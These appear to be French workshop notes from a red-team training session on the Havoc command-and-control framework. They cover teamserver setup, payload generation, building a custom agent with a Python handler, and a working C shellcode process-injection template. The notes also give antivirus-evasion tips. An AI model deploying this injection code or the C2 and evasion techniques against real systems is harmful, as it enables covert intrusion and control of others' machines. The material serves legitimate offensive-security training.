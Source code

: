 # Workshop Diateam - UYBHYS 2023 - Guillaume Prigent

Voir slides et codes pour plus de détails.

## Introduction

Penser à passer l'hyperviseur de VirtualBox en Hyper-V sur Windows, pour optimiser les performances des VM.

Havoc = Framework C2 open-source très populaire.

Informations en vrac : 

- Modèle Client / Demon / Teamserver
- Teamserver = Serveur de contrôle permettant la connexion des clients sur des websockets
- Le Teamserver compile les demons à la volée à la demande des différents clients (comme sur Metasploit)
- Le Teamserver démarre avec un fichier de profil au format YAOTL
- Version 6 => API désactivée 
- Port par défaut : 40056
- Listeners HTTP / HTTPS / SMB nativement mais le SMB est surtout utilisé pour la latéralisation
- External C2 = Genre de proxy ajouté comme fusible pour ne pas se faire griller toutes les IP directement
- Une petite base de données SQLite est là pour stocker les informations des listeners de manière persistante : **/Havoc/Teamserver/data/havoc.db** 
- Deux options pour customiser un agent : 
  - Fork le code et modifier à la dure
  - Créer des "external agents" soi-même avec l'API pour les versions < 6 


Lancement Teamserver : 

```
hns@hns:~/Code/Havoc/Havoc/Teamserver/profiles$ vim diateam.yaotl
hns@hns:~/Code/Havoc/Havoc/Teamserver$ ./teamserver server --profile ./profiles/diateam.yaotl --debug -v
```

Lancement Client : 

```
hns@hns:~/Code/Havoc/Havoc/Client$ ./Havoc
```


Tips : 

- Éviter au maximum de lancer son Teamserver en tant que root pour ne pas se faire contrer facilement, il existe des vulnérabilités dans tous les serveurs C2 comme dans le reste des applications.
- Les dernières versions ont un paramètre permettant de sélectionner des plages de communication pour éviter les heures de bureau par exemple.



## Génération du payload

Attack => Payload => Choisir la configuration voulue

Au moment de la création du démon, les paramètres sont encodés sous forme de bytes et transmis ensuite, grâce aux **#define**

C'est un bon moyen de compiler à la volée en passant des paramètres arbitraires.

**Size / MagicValue / AgentID / Data binaire** = Schéma obligatoire à respecter pour notre futur custom agent.

En C++ il existe des techniques pour attraper les kills grâce aux signaux, pour réussir à prévenir le serveur C2 avant de mourir.



## Création de notre third party agent 

Deux éléments nécessaires :

- Handler (Python) qui enregistre les informations pour le Teamserver
- Agent (C++) que l'on peut reprendre depuis le code-source de Havoc



On utilise Python dans notre cas parce que Havoc fournit un petit wrapper Python, mais c'est faisable dans n'importe quel langage selon le temps et les moyens.



Chronologie : 

1) Requête POST de l'Agent vers le Teamserver avec les données obligatoires (Taille, MagicValue, AgentID, Data)
2) Le Teamserver vérifie la MagicValue puis transmet au Handler Python
3) Le Handler traite
4) Le Teamserver renvoie la réponse du Handler à l'Agent



Bien changer la valeur de cette ligne pour éviter les race conditions et les bugs :

```
#define DEMON_MAGIC_VALUE 0xDEADBEEF
```



Voir ce morceau (dans le fichier Demon.h) :

```
typedef struct
{
   [...]
} INSTANCE;
```

Extraire ce dont on a besoin et épurer pour notre propre agent.

Il y a beaucoup de définitions et de syscalls car il y a beaucoup de fonctions dans les agents Havoc, mais on peut faire beaucoup plus minimaliste.


Lancement : 

```
hns@hns:~/Code/Havoc/Havoc/Teamserver$ ./teamserver server --profile ./profiles/diateam.yaotl --debug -v

...

hns@hns:~/Code/Havoc/Horla_0.1$ python3 handler.py
```


Exemple d'une commande customisée :

```Python
class CommandSleep(Command)
    CommandId = COMMAND_SLEEP
    Name = "sleep"
    Description = "Change the agent sleep"
    Help = "Example : sleep 9"
    NeedAdmin = False
    Mitr = [] # Nécessaire
    Params = [ 
        CommandParam(
            name="sleeptime",
            is_file_path=False,
            is_optional=False
        ) 
    ]

    def job_generate(self, arguments: dict) -> bytes:
        print("[👉] 'sleep' command, job generation for ", arguments[ 'sleeptime' ]," seconds")

        Task = Packer()

        Task.add_int( self.CommandId )
        Task.add_data( arguments[ 'sleeptime' ] )

        return Task.buffer
```



Manière sympa de générer des payloads "dynamiquement" : ouvrir le fichier C avec le script Python et remplacer les valeurs des **#define** avant de compiler.

## Injection de shellcode

L'API Windows permet de tout faire nativement, sans tricks. En revanche, en général, les antivirus détectent directement les manipulations faisant appel à cette API.

Étapes : 

1. Trouver un processus cible

2. Ouvrir un handle sur le processus

3. Allocation de mémoire à l'intérieur du processus cible

4. On rend la zone mémoire exécutable avec "VirtualProtectEx"

5. Création du thread

   

Exemple minimaliste : 

```C
#include <windows.h>
#include <stdio.h>

// À modifier
unsigned char shellcode[] = {0x00, 0x00};
    
void main(){
    printf("Ready to execute shellcode\n");
    getchar();

    LPVOID pAllocatedMemory;
    HANDLE hProcess;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 892);

    pAllocatedMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );

    printf("Memory Allocated at %0x-16p \n");

    getchar();
    //memcpy(pAllocatedMemory, shellcode, sizeof(shellcode));
    WriteProcessMemory(hProcess, pAllocatedMemory, shellcode, sizeof(shellcode), 0);

    DWORD oldprotect;
    VirtualProtectEx(hProcess, pAllocatedMemory, sizeof(shellcode), PAGE_EXECUTE_READ, &oldprotect);

    printf("Ready to execute Shellcode \n");
    getchar();

    HANDLE hThread;

    hThread = CreateRemoteThread(hProcess,NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, 0 , 0 , 0);

    WaitForSingleObject(hThread, -1);

}
```


Tips : 

- Ouvrir un handle doit forcément se faire sur un processus ayant des droits équivalents ou inférieurs, on ne peut pas élever ses privilèges de cette manière.
- Sur d'anciennes versions de Defender ou de certains autres antivirus, on peut contourner la détection en créant un thread suspendu que l'on activera après un certain temps.
- Les analystes font attention aux zones mémoires RWX mais moins aux RX.
